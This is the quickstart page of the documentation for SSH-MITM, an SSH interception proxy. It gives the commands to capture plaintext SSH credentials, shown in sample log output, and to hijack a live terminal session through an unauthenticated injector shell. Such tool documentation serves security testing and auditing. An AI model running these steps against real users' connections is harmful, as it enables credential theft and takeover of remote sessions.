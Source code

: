 Quickstart
==========

Eager to get started? This page gives a good introduction in how to get started with SSH-MITM.

First, make sure that:

* SSH-MITM is :ref:`installed <Installation of SSH-MITM>`
* SSH-MITM is up-to-date

Let’s get started with some simple examples.


Start the ssh-mitm proxy server
-------------------------------

Starting an intercepting mitm-ssh server with password authentication is very simple.

All you have to do is run this command in your terminal of choice.

.. code-block:: bash
    :linenos:

    $ ssh-mitm --remote-host 192.168.0.x

Now let's try to connect to the ssh-mitm server.
The ssh-mitm server is listening on port 10022.

.. code-block:: bash
    :linenos:

    $ ssh -p 10022 user@proxyserver

You will see the credentials in the log output.


.. code-block:: none
    :linenos:

    2021-01-01 11:38:26,098 [INFO]  Client connection established with parameters:
        Remote Address: 192.168.0.x
        Port: 22
        Username: user
        Password: supersecret
        Key: None
        Agent: None


Hijack a SSH terminal session
-----------------------------

Getting the plain text credentials is only half the fun.
SSH-MITM proxy server is able to hijack a ssh session and allows you to interact with it.

Let's get startet with hijacking the session.

.. code-block:: bash
    :linenos:

    $ ssh-mitm --remote-host 192.168.0.x --ssh-interface ssh_proxy_server.plugins.ssh.mirrorshell.SSHMirrorForwarder

Connect your ssh client with the ssh-mitm proxy.

.. code-block:: bash
    :linenos:

    $ ssh -p 10022 user@proxyserver

When a client connects, the ssh-mitm proxy server starts a new server, where you can connect with another ssh client.
This server is used to hijack the session.

.. code-block:: none
    :linenos:

    2021-01-01 11:42:43,699 [INFO]  created injector shell on port 34463. connect with: ssh -p 34463 127.0.0.1

To hijack the session, you can use your favorite ssh client. This connection does not require authentication.

.. code-block:: bash
    :linenos:

    $ ssh -p 34463 127.0.0.1

After you are connected, your session will only be updated with new responses, but you are able to execute commands.

Try to execute somme commands in the hijacked session or in the original session.

The output will be shown in both sessions.
